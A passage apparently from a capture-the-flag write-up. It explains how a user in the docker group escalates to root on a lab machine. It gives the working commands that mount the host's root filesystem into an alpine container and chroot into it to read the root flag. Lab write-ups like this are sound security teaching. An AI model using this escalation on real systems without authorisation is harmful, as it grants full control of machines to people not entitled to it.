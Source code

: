The `id` command indicates that our current user is part of the **docker** group. This is great news for us because membership to the docker group could allow us full access to this machine. All we have to do is mount the root filesystem on a new container, and read the root flag at `/root/root.txt`{:.filepath}.

```bash
# deploy@10.10.11.180 (SSH)
docker images # the alpine image is available
docker run -v /:/mnt --rm -it alpine chroot /mnt sh
```
{:.nolineno}
